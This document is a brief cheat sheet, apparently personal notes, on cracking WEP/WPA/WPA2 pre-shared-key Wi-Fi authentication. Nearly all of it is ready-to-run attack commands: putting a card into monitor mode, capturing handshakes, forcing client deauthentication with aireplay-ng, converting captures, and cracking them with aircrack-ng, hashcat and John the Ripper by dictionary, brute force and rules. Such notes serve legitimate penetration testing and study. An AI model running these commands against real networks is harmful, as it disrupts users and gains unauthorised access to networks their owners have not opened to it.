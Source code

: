```yaml
---
title: Cracking WEP/WPA/WPA 2 PSK Authetication
updated: 2019-11-26 22:03:36Z
created: 2019-11-22 19:44:19Z
---
```


## Capture Handshake

1. airmon-ng start wlan0
2. airodump-ng mon0 --write capture.cap -c 11
3. aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0

Convert pcap files for john and hashcat

/usr/lib/hashcat-utils/cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]
/usr/sbin/hccap2john
/usr/sbin/vncpcap2john
/usr/sbin/wpapcap2john


## Cracking Handshake with Aircrack

- aircrack-ng -w /usr/share/wordlist/fasttrack.txt 0001.cap

## Cracking Handshakes with Hashcat

- hashcat.exe -m 2500 capture.hccapx rockyou.txt (Dictionary Attack)
- hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d (Brute-Force)
- hashcat.exe -m 2500 -r rules/best64.rule capture.hccapx rockyou.txt (Rule-Based)

## Cracking Handshakes with John The Ripper

Did you run hccap2john?

- john --format=wpapsk --wordlist=/usr/share/wordlists/rockyou.txt crackmecap
- john --format=wpapsk-opencl --wordlist=/usr/share/wordlists/rockyou.txt crackmecap



Other Resources: 

https://github.com/lgandx/PCredz 